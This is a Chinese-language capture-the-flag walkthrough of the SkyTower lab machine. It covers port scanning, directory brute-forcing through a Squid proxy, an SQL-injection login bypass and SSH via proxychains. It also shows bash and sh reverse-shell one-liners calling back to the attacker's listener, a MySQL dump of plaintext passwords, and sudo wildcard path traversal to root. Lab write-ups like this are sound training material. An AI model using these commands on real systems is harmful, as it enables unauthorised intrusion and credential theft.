




## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 172.20.10.14
[sudo] password for fforu:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-18 13:12 CST
Nmap scan report for 172.20.10.14
Host is up (0.018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds

┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80,3128  172.20.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-18 13:13 CST
Nmap scan report for 172.20.10.14
Host is up (0.00074s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.53 seconds
```

看到squid代理，先去配置一下代理

## 目录爆破

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ dirb http://172.20.10.14/ -p 172.20.10.14:3128

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Mar 18 13:18:59 2024
URL_BASE: http://172.20.10.14/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: 172.20.10.14:3128

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://172.20.10.14/ ----
+ http://172.20.10.14/background (CODE:200|SIZE:2572609)
+ http://172.20.10.14/cgi-bin/ (CODE:403|SIZE:288)
+ http://172.20.10.14/index (CODE:200|SIZE:1136)
+ http://172.20.10.14/index.html (CODE:200|SIZE:1136)
+ http://172.20.10.14/server-status (CODE:403|SIZE:293)

-----------------
END_TIME: Mon Mar 18 13:19:11 2024
DOWNLOADED: 4612 - FOUND: 5
```
感觉没什么有用信息啊

## web渗透

来到80端口首页
看到一个登录
那么sql注入尝试一下


这个报错好像是过滤了一些字符

使用这个语句绕过
用字典Auth_Bypass.txt也能成功绕过
这里burpsuite用Pitchfork攻击模块



Username: john
Password: hereisjohn

## ssh连接

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ proxychains ssh  john@172.20.10.14
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  172.20.10.14:3128  ...  172.20.10.14:22  ...  OK
The authenticity of host '172.20.10.14 (172.20.10.14)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.20.10.14' (ECDSA) to the list of known hosts.
john@172.20.10.14's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 172.20.10.14 closed.
```

虽然不能ssh连接成功，但是可以执行命令
执行个反弹shell试试

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ proxychains ssh  john@172.20.10.14 'bash -i >& /dev/tcp/172.20.10.13/4444 0>&1'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  172.20.10.14:3128  ...  172.20.10.14:22  ...  OK
john@172.20.10.14's password:


┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.20.10.13] from (UNKNOWN) [172.20.10.14] 56822
bash: no job control in this shell

Funds have been withdrawn

```

bash不行
用sh，sh的交互性差一些，但是连接成功性高一些

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ proxychains ssh  john@172.20.10.14 'sh -i >& /dev/tcp/172.20.10.13/4444 0>&1'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  172.20.10.14:3128  ...  172.20.10.14:22  ...  OK
john@172.20.10.14's password:

┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.20.10.13] from (UNKNOWN) [172.20.10.14] 56836
sh: 0: can't access tty; job control turned off
$ ls
ls -la
ls
^C
```

但是虽然有命令符，但是不能执行命令

其实只要在ssh连接后加上/bin/bash就可以

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ proxychains ssh  john@172.20.10.14 /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  172.20.10.14:3128  ...  172.20.10.14:22  ...  OK
john@172.20.10.14's password:
whoami
john
```

进到shell后首先将bashrc配置文件给移除
因为bashrc设定了连接就断
移除应该就可以了
```bash
$ mv .bashrc .bashrc.bak
$ ls -la
total 28
drwx------ 2 john john 4096 Mar 18 03:27 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 john john 3437 Jun 20  2014 .bashrc.bak
-rw-r--r-- 1 john john   92 Mar 18 03:16 fforu.pub
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
```

## john用户枚举

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ proxychains ssh  john@172.20.10.14
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  172.20.10.14:3128  ...  172.20.10.14:22  ...  OK
john@172.20.10.14's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Mar 18 03:19:19 2024 from 172.20.10.14
john@SkyTower:~$ sudo -l
[sudo] password for john:
Sorry, user john may not run sudo on SkyTower.
john@SkyTower:~$
```
通过登陆的login.php得到数据库账号密码及数据库ming


### mysql用户查找

登录root用户
```sql
john@SkyTower:/var/www$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 40
Server version: 5.5.35-0+wheezy1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.02 sec)

mysql> use SkyTech
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables
    -> ;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

mysql>
```

得到其它两个用户
分别登录

## 提权

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo proxychains4 ssh sara@172.20.10.14
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  172.20.10.14:3128  ...  172.20.10.14:22  ...  OK
sara@172.20.10.14's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Mar 18 03:40:41 2024 from 172.20.10.14
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$
```

想切换到William失败了

通配符提权
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
这条配置的作用是，sara用户能够以root用户执行`/bin/cat /accounts/*`和`/bin/ls /accounts/*`
通配符*可以替换为任何字符
所以直接去读root

```bash
sara@SkyTower:~$ sudo  /bin/cat /accounts/*
/bin/cat: /accounts/*: No such file or directory
sara@SkyTower:~$ sudo /bin/ls /accounts/../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ su root
Password:
root@SkyTower:/home/sara# whoami
root
```